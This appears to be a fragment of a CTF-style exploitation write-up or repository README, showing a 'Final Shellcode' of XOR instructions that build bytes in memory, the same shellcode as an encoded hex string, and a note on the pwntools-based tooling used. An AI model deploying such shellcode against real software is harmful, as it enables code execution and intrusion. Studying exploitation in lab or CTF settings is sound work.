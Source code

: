 
Final Shellcode
```assembley 
xor al, 49
xor al, BYTE PTR [rbx+55 ]
xor BYTE PTR [rdx+ 48 ], al
xor al, 49
xor al, BYTE PTR [rbx+55 ]
xor al, BYTE PTR [rbx+50 ]
xor al, BYTE PTR [rbx+52 ]
xor BYTE PTR [rdx+ 49 ], al
xor al, BYTE PTR [rbx+50 ]
xor al, BYTE PTR [rbx+52 ]
xor al, BYTE PTR [rbx+49 ]
xor al, 69
xor BYTE PTR [rdx+ 50 ], al
xor al, BYTE PTR [rbx+49 ]
xor al, 69
xor al, BYTE PTR [rbx+66 ]
xor al, BYTE PTR [rbx+55 ]
xor BYTE PTR [rdx+ 51 ], al
xor al, BYTE PTR [rbx+66 ]
xor al, BYTE PTR [rbx+55 ]
xor al, 57
xor al, 54
xor BYTE PTR [rdx+ 52 ], al
xor al, 57
xor al, 54
xor al, 70
xor al, 67
xor BYTE PTR [rdx+ 53 ], al
xor al, 70
xor al, 67
```

Final Shellcode encoded
```python 
b"412C70B0412C72C22C40B12C22C42C14E0B22C14E2CB2C70B32CB2C749460B449464F4C0B54F4C"
```

NOTE:
The original exploit use pinja a homebrew combination of pwn tools and binary ninja's debugger. If you happen to own Binary Ninja commerial and would like to try it out <https://github.com/ex4722/pinja>.Pwn2.py uses the regular version of pwn tools.
